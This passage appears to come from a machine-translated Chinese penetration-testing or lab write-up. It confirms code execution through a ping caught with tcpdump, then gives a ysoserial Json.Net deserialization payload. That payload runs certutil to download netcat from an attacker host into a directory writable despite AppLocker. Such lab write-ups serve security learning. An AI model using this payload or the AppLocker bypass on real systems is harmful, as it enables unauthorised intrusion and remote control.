 服务器出错:

![](img/761458c5da820b23cb68fb36f7bf9a4c.png)

但是在我的 tcpdump 嗅探器上，我从机器上得到一个 ping(如果你不运行嗅探器，你将无法识别你是否得到了 ping ),这验证了我们有代码执行。

![](img/dfc1e6ddf2112f3ebce8a44a0cef7e8a.png)

我现在生成一个有效负载，它将 netcat 二进制文件下载到我可以写入的一个目录中。其他位置可以在这里找到:[https://github . com/API 0 cradle/UltimateAppLockerByPassList/blob/master/Generic-applockerbypasss . MD](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

```
ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "certutil.exe -urlcache -sp
lit -f http://10.10.14.81/nc.exe C:/Windows/System32/spool/drivers/color/nc.exe"
```
